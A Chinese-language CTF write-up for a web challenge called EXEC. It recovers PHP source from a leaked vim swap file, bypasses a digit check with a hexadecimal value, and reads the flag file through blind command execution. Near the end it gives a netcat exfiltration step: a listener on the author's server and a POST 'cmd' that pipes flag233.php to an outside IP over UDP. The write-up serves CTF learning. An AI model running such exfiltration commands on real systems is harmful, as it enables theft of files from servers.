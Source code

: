 # CTF刷题WriteUp

## WEB

### "百度杯"CTF比赛 十月场——EXEC

**进入网站页面**

![image-20210501154827617](CTF%E5%88%B7%E9%A2%98WriteUp.assets/image-20210501154827617.png)

**查看源码**

发现了vim，可能是vim泄露，于是在url地址输入了http://21b854b211034489a4ee1cb0d37b0212560fbf24f2e6468d.changame.ichunqiu.com`/.index.php.swp`

![image-20210501155039314](CTF%E5%88%B7%E9%A2%98WriteUp.assets/image-20210501155039314.png)

或者通过dirsearch工具扫描网站目录也可以发现 `/.index.php.swp`，也可以想到vim泄露

![image-20210501155453793](CTF%E5%88%B7%E9%A2%98WriteUp.assets/image-20210501155453793.png)

下载文件

![image-20210501155637128](CTF%E5%88%B7%E9%A2%98WriteUp.assets/image-20210501155637128.png)

下一步就是通过 `vim -r index.php.swp`恢复index.php,然后打开

~~~php
<html>
<head>
<title>blind cmd exec</title>
<meta language='utf-8' editor='vim'>
</head>
</body>
<img src=pic.gif>
<?php
/*
flag in flag233.php
*/
 function check($number)
{
        $one = ord('1');
        $nine = ord('9');
        for ($i = 0; $i < strlen($number); $i++)
        {   
                $digit = ord($number{$i});
                if ( ($digit >= $one) && ($digit <= $nine) )
                {
                        return false;
                }
        }
           return $number == '11259375';
}
if(isset($_GET[sign])&& check($_GET[sign])){
	setcookie('auth','tcp tunnel is forbidden!');
	if(isset($_POST['cmd'])){
		$command=$_POST[cmd];
		$result=exec($command);
		//echo $result;
	}
}else{
	die('no sign');
}
?>
</body>
</html>
~~~

这里有一个check函数需要绕过，很明显check函数就是把选手输入的数字一个一个的判断，查看这些数字的ASCII码是否在1-9的ASCII码之间，如果符合则验证失败。如果check函数想最后返回返回true，则`$number`需要等于'11259375'，这里可以使用十六进制来绕过即可。

代码里面的 `setcookie('auth','tcp tunnel is forbidden!');`告诉我们TCP被禁止不能用curl,而且cmd命令执行之后也没有回显，但是前面的注释告诉了我们flag文件，我们可以直接用nc命令把flag文件下过来，我们需要一台有公网ip的服务器。

在服务器上运行

~~~sh
nc -lup 39999
~~~

然后再题目那里用post方法 cmd=nc -u 你的ip地址 39999 < flag233.php

![image-20210501160323527](CTF%E5%88%B7%E9%A2%98WriteUp.assets/image-20210501160323527.png)

flag便传到了服务器上

![image-20210501160629527](CTF%E5%88%B7%E9%A2%98WriteUp.assets/image-20210501160629527.png)


